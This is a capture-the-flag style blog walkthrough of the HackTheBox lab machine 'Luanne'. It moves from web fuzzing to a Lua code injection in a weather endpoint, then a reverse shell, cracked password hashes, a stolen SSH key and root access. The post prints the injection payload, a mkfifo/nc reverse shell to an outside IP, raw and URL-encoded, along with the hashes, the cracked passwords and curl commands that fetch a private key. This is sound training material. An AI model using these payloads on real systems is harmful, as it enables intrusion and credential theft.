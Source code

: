 ```yaml
---
layout: post
title:  "Launne Walkthrough"
date:   2021-03-27 
categories: blog
layout: post
---
```

# Luanne Walkthrough
![](https://i.ibb.co/wJw8Kzj/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Lua code injection vulnerability.
* Getting reverse shell.
* Enumerate luanne.
* Getting id_rsa for a user.
* ssh connecting.
* Privilege escalation.
* RooTed.

<!--more-->

## Nmap Scan:

**I Found 3 ports opened 22,80,9001.** 

![](https://i.ibb.co/xXfkxYT/image.png)


### Let's start with the Web Page:

![]()

> **It has authentication pop-up.**

> **I Tried admin:admin and other random credentials but no thing fine to login.**

> **But i noticed that when i got (401 Unauthorized) that is a localhost web page at port 3000.**

![]()


> #### I used ffuf for fuzzing luanne.htb/


![]()



* We got robots.txt

![]()

* /weather disallowd with comment: still harversting cities.

* access to luanne.htb/weather 404 not found.

* but there are cities we had to find them.

* let's fire up ffuf again to fuzz luanne.htb/weather/ 

![]()

**Nice got forecast**

> * by visiting luanne.htb/weather/forecast/ got this.


![]()


> #### Use city=list to list available cities 

*okay, Thanks*


![]()

* It's just a weather statues for every city, I stucked here and got hint from HTB fourms. 

![]()

**Lua web application vulnerable to code injection by add a missing round brackets().**

* to get the shell we have to know the operating system and it's netBSD.
* by addind the missing round bracket to the shell.

```ruby
');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 1234 >/tmp/f")—
``` 
**encode the url**
```ruby
http://luanne.htb/weather/forecast?city=%27%29%3Bos.execute%28%22rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.16.6%201234%20%3E%2Ftmp%2Ff%22%29--
```
## Getting reverse shell.

![]()

```html
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
* added to luanneWepApi.txt 

> **we have to crack this hash, so Used john to crack it**

![]()

**we got iamthebest**

## Enumerate luanne.


![]()

> * We got user r.michaels 

**Let's check the netstate** 

![]()

> * There is a localhost web page on port 3000 and 3001. 

**Let's Dig more**

![]()


![]()

**I got hinted to dig more in port 3001 and get id_rsa.**

**So let's Try to curl the local web server in port 3001.**
```html
curl 127.0.0.1:3001/~r.michaels/.ssh/id_rsa
``` 

![]()

> **no items here so we can find it in /~r.michaels/id_rsa ,Because we enterted launne as _httpd so this folder shared through web that's why we found id_rsa in /~r.michaels/ not in /~r.michaels/.ssh/**


![]()

> **No Authorization, So let's login with "iamthebest"** 

```html
curl - -user webapi_user:iamthebest 127.0.0.1:3001/~r.michaels/id_rsa
```

![]()


## SSH connecting.


![]()

![]()

> **WE will use netpgp to decrypt devel_backup-2020-09-16.tar.gz.enc**

![]()

> * we access to /webapi but no thing useful.


![]()

> **we access to /www and got another webapi_user.**
 
![]()

* webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.


#### As before we will use john to crack it.

> **we got"littlebear"**

**by switching to superuser permissions using sudo su...**

![]()

##### Command Not Found!!!

> **we had to find Alternatives for sudo su in netBSD operating system.**

* I found doas su, And that's ok.
* Surely we will use littlebear to get root.


![]()

# RooTed



